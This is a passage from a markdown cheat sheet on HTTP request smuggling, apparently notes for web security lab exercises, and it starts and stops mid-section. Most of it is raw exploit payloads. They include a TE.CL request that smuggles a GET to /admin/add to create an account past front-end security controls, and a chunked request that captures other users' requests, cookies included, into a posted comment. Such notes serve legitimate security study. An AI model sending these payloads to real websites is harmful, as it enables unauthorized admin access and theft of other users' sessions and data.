     0  
      
    GET /admin/add?username=test&password=test HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
      
    x=
	
	```
	
	
- Bypass front-end security controls, TE.CL vulnerability

	Same thing as before, just the necessary change:
	
	```header
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-length: 4  
	Transfer-Encoding: chunked  

	87  
	GET /admin/add?username=test&password=test HTTP/1.1  
	Host: localhost  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	```

#### Advanced

- Exploiting HTTP request smuggling to capture other users' requests

	You need to be able to have a field that is at the end of your post data and to be able to update a site field or comment or post or ... In that way you will catch the other user requests by redirect it back to your data in your post request. Here is an example: 
	
	```
	GET / HTTP/1.1  
	Host: WEBSITE 
	Transfer-Encoding: chunked  
	Content-Length: 324  

	0  

	POST /post/comment HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 400  
	Cookie: session=YOURCOOKIE

	csrf=CSRFTOKEN&postId=2&name=YOURNAME&email=EMAIL&comment=
	
	
	```
